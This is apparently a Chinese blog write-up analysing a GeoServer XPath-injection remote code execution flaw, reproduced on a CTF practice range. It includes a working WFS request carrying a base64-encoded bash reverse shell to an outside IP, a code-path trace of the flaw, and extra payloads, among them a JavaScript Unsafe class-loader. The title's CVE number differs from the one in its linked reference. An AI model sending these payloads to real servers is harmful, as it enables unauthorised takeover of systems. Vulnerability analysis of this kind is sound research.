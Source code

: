 # CVE-2024-36404

## 1、漏洞详情

GeoServer < 2.23.6

2.24.0 <= GeoServer < 2.24.4

2.25.0 <= GeoServer < 2.25.2

GeoServer 是 OpenGIS Web 服务器规范的 J2EE 实现，利用 GeoServer 可以方便的发布地图数据，允许用户对特征数据进行更新、删除、插入操作。

在GeoServer 2.25.1， 2.24.3， 2.23.5版本及以前，未登录的任意用户可以通过构造恶意OGC请求，在默认安装的服务器中执行XPath表达式，进而利用执行Apache Commons Jxpath提供的功能执行任意代码。

## 2、环境搭建

[vulhub/geoserver/CVE-2024-36401/README.zh-cn.md at master · vulhub/vulhub · GitHub](https://github.com/vulhub/vulhub/blob/master/geoserver/CVE-2024-36401/README.zh-cn.md)

但是本地docker拉取镜像超时失败

[漏洞复现练习靶场 - 极核::CTF (get-shell.com)](https://hackhub.get-shell.com/games/4/challenges)

## 3、详细分析

先直接打一下poc：

![image-20240711151409614](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20240711151409614.png)

反弹shell的payload

```java
POST /geoserver/wfs HTTP/1.1
Host: node.hackhub.get-shell.com:46256
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
X-Forwarded-For: 127.0.0.1
Priority: u=1
Content-Type: application/xml
Content-Length: 398

<wfs:GetPropertyValue service='WFS' version='2.0.0'
xmlns:topp='http://www.openplans.org/topp'
xmlns:fes='http://www.opengis.net/fes/2.0'
xmlns:wfs='http://www.opengis.net/wfs/2.0'
valueReference='exec(java.lang.Runtime.getRuntime(),"bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMTAuNDEuNDguNjMvNzc3NyAwPiYx}|{base64,-d}|{bash,-i}")'>
<wfs:Query typeNames='topp:states'/>
</wfs:GetPropertyValue>
```


根据后期修改的代码，我们可以判断出什么类的方法中有漏洞
[[GEOT-7587系列\]改进了 sikeoka 对 XPath 表达式的处理 ·拉取请求 #4797 ·Geotools/地工工具 ·GitHub上](https://github.com/geotools/geotools/pull/4797/commits/e53e5170ba71521728875a436c80616cfb03c1e8)

```java
rg.geotools.appschema.util.XmlXpathUtilites.getXPathValues(NamespaceSupport, String, Document)
org.geotools.appschema.util.XmlXpathUtilites.countXPathNodes(NamespaceSupport, String, Document)
org.geotools.appschema.util.XmlXpathUtilites.getSingleXPathValue(NamespaceSupport, String, Document)
org.geotools.data.complex.expression.FeaturePropertyAccessorFactory.FeaturePropertyAccessor.get(Object, String, Class<T>)
org.geotools.data.complex.expression.FeaturePropertyAccessorFactory.FeaturePropertyAccessor.set(Object, String, Object, Class)
org.geotools.data.complex.expression.MapPropertyAccessorFactory.new PropertyAccessor() {...}.get(Object, String, Class<T>)
org.geotools.xsd.StreamingParser.StreamingParser(Configuration, InputStream, String)
```

首先根据这个poc，定位到源码中的位置：

一共就一个servlet，

![image-20240711161022904](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20240711161022904.png)

Controller是个接口，一般直接继承AbstrcatController，并实现handleRequestInternal方法。handleRequestInternal方法相当于[Struts](https://so.csdn.net/so/search?q=Struts&spm=1001.2101.3001.7020) 1的execute方法。

在这里`org.geoserver.ows.Dispatcher`继承了AbstractController类，并实现了handleRequestInternal方法

![image-20240712111309473](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20240712111309473.png)

```
result = operation.invoke(serviceBean, parameters);
//operation是对应的getPropertyValue方法
//serviceBean是DefaultWebFeatureService20类的实例
//参数是
net.opengis.wfs20.impl.GetPropertyValueTypeImpl@7d203b2e (handle: null, service: WFS, version: 2.0.0, baseUrl: http://localhost:8087/geoserver_war/, extendedProperties: {}) (count: null, outputFormat: <unset>, resolve: <unset>, resolveDepth: *, resolvePath: null, resolveTimeout: <unset>, resultType: <unset>, startIndex: <unset>, valueReference: exec(java.lang.Runtime.getRuntime(),"calc"))
```

所以就反射到，`DefaultWebFeatureService20#getPropertyValue方法中`

![image-20240712111929173](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20240712111929173.png)

`GetPropertyValue#run`

![image-20240711164428355](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20240711164428355.png)

![image-20240711164723557](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20240711164723557.png)
首先通过工厂类获得一个 AttributeExpressionImpl()对象

这里又生成了一个对象，但是把参数进行了一个正则替换
比如，exec(java.lang.Runtime.getRuntime("cal[JYcxk]c")--------->>>exec(java.lang.Runtime.getRuntime("calc")

```java
                PropertyName propertyNameNoIndexes = this.filterFactory.property(request.getValueReference().replaceAll("\\[.*\\]", ""), this.getNamespaceSupport());
```

![image-20240711165316886](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20240711165316886.png)

![image-20240712112833984](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20240712112833984.png)

接下来再来看看evaluate的调用，在这里会通过`PropertyAccessors.findPropertyAccessors`获取合适的属性访问器，之后遍历调用其`get`方法，其中就包括了`org.geotools.data.complex.expression.FeaturePropertyAccessorFactory.FeaturePropertyAccessor#get`，官方公告列出来的就有这个
![image-20240712112914841](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20240712112914841.png)

![image-20240711165257427](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20240711165257427.png)

### 执行点

![image-20240712113125106](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20240712113125106.png)

![image-20240712113134917](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20240712113134917.png)

![image-20240712113156639](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20240712113156639.png)

## 总结![image-20240712143741999](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20240712143741999.png)



```java
在Dispatcher#execute()方法中的invoke()，导致反射指定方法被执行，进一步调用到run()方法中，然后一步步解析。最终xpath注入
```



## 拓展篇

```java
<wfs:GetPropertyValue service='WFS' version='2.0.0'
xmlns:topp='http://www.openplans.org/topp'
xmlns:fes='http://www.opengis.net/fes/2.0'
xmlns:wfs='http://www.opengis.net/wfs/2.0'>
<wfs:Query typeNames='topp:states'/>
<wfs:valueReference>
eval(getEngineByName(javax.script.ScriptEngineManager.new(),'js'),'java.lang.Runtime.getRuntime().exec("calc")')
</wfs:valueReference>
</wfs:GetPropertyValue>
```

```java
<wfs:GetPropertyValue service='WFS' version='2.0.0'
 xmlns:topp='http://www.openplans.org/topp'
 xmlns:fes='http://www.opengis.net/fes/2.0'
 xmlns:wfs='http://www.opengis.net/wfs/2.0'>
 <wfs:Query typeNames='sf:archsites'/>
 <wfs:valueReference>eval(getEngineByName(javax.script.ScriptEngineManager.new(),'js'),'var str="";var bt;try {bt =java.lang.Class.forName("sun.misc.BASE64Decoder").newInstance().decodeBuffer(str);} catch (e) {bt = java.util.Base64.getDecoder().decode(str);}var theUnsafe = java.lang.Class.forName("sun.misc.Unsafe").getDeclaredField("theUnsafe");theUnsafe.setAccessible(true);unsafe = theUnsafe.get(null);unsafe.defineAnonymousClass(java.lang.Class.forName("java.lang.Class"), bt, null).newInstance();')</wfs:valueReference>
</wfs:GetPropertyValue>
```


